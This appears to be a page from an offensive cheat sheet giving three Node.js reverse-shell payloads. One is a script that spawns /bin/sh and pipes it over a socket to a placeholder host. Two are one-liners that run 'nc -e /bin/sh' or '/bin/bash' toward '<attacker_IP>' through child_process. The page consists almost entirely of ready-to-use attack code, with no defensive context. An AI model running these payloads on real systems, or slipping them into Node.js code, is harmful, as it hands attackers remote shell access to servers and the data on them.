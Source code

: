 # NodeJS

## Method 1

```javascript
(function() {
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(<PORT>, "<IP>", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

## Method 2

```javascript
require('child_process').exec('nc -e /bin/sh <attacker_IP> <LPORT>')
```

## Method 3

```javascript
var x = global.process.mainModule.require
x('child_process').exec('nc <attacker_IP> <LPORT> -e /bin/bash')
```

## References

- [JSgen](https://gitlab.com/0x4ndr3/blog/blob/master/JSgen/JSgen.py)